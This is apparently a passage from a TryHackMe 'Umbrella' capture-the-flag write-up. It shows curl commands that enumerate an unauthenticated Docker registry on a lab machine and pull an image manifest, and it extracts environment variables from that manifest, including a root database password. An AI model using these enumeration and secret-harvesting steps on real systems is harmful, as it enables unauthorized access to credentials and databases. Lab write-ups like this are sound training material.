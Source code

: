 {: .nolineno}
{: .nolineno}

Now with this machine IP lets access those :>

```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Umbrella]
└─$ curl -s http://10.10.248.13:5000/v2/_catalog
{"repositories":["umbrella/timetracking"]}
```
{: .nolineno}
{: .nolineno}

I also got something through manifests/latest output :
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Umbrella]
└─$ curl -s http://10.10.248.13:5000/v2/umbrella/timetracking/manifests/latest
{
   "schemaVersion": 1,
   "name": "umbrella/timetracking",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
...
...
"history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"node\",\"app.js\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":null},\"container\":\"527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9\",\"container_config\":{\"Hostname\":\"527e55a70a33\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"node\\\" \\\"app.js\\\"]\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":{}},\"created\":\"2022-12-22T10:03:08.042002316Z\",\"docker_version\":\"20.10.17\",\"id\":\"7aec279d6e756678a51a8f075db1f0a053546364bcf5455f482870cef3b924b4\",\"os\":\"linux\",\"parent\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"throwaway\":true}"
...
...
```
{: .nolineno}
{: .nolineno}
From Above output data I got this data ->
```bash
"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
"NODE_VERSION=19.3.0"
"YARN_VERSION=1.22.19"
"DB_HOST=db"
"DB_USER=root"
"DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5"
```